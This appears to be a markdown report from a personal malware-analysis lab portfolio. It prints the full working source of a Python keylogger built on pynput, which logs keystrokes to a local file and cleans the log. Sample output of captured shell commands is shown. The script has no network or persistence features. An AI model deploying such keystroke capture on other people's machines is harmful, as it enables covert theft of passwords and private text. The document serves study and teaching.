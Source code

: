 # Keylogger Malware Analysis Report

## Overview

This report documents the setup, development, and execution of a simulated keylogger for malware analysis practice. The keylogger captures keystrokes on a Linux system using Python, logs them to a file, and produces a cleaned version of the log for readable analysis.

## Environment Setup

### Project Directory Structure

```
~/Documents/ctf-portfolio/malware-analysis-lab/
```

### Virtual Environment Setup

```bash
python3 -m venv venv
source venv/bin/activate
pip install pynput
```

## Keylogger Script

### Purpose

The Python keylogger script captures keyboard input, stores raw keystrokes in `keylog.txt`, and processes the input into readable text in `keylog_cleaned.txt`.

### Integrated Script: `simulated_keylogger.py`

```python
from pynput import keyboard
import re

log_file = "keylog.txt"
clean_file = "keylog_cleaned.txt"

# Capture key presses
def on_press(key):
    try:
        with open(log_file, "a") as f:
            f.write(key.char)
    except AttributeError:
        with open(log_file, "a") as f:
            f.write(f"[{key}]\n")

# Stop listener on ESC
def on_release(key):
    if key == keyboard.Key.esc:
        return False

# Clean the raw log file
def clean_log():
    with open(log_file, "r") as f:
        raw = f.read()

    raw = raw.replace("[Key.space]", " ")
    raw = raw.replace("[Key.enter]", "\n")
    cleaned = re.sub(r"\[Key\.[^\]]+\]", "", raw)
    cleaned = cleaned.replace("[", "").replace("]", "")
    cleaned = re.sub(r"\n\s*\n", "\n", cleaned)
    cleaned = re.sub(r" +", " ", cleaned)

    with open(clean_file, "w") as f:
        f.write(cleaned)

    print(f"Cleaned log saved to {clean_file}")

# Start the listener
listener = keyboard.Listener(on_press=on_press, on_release=on_release)
listener.start()
listener.join()

# Clean the log after listener stops
clean_log()
```

## Execution

To run the keylogger:

```bash
source venv/bin/activate
python simulated_keylogger.py
```

* Press `Esc` to stop the keylogger.
* It will save:

  * Raw logs to `keylog.txt`
  * Cleaned logs to `keylog_cleaned.txt`

## Output Example

**`keylog_cleaned.txt`** after execution:

```
ls
cd bandit
ls
cd bandit30
cat bandit30
cat bandit1
clear
```

## Observations

* Noisy keys like `Key.ctrl`, `Key.shift`, etc. are removed.
* Meaningful inputs like commands and typed text are preserved and formatted.
* Script handles cleanup immediately after logging session ends.

## Notes

* This is a safe, simulated keylogger used solely in a controlled analysis lab.
* It is part of a malware analysis portfolio and does **not** perform any network communication or persistence.

---

Next Step: Document additional malware behaviors (e.g., downloader, fake ransomware, persistence techniques).
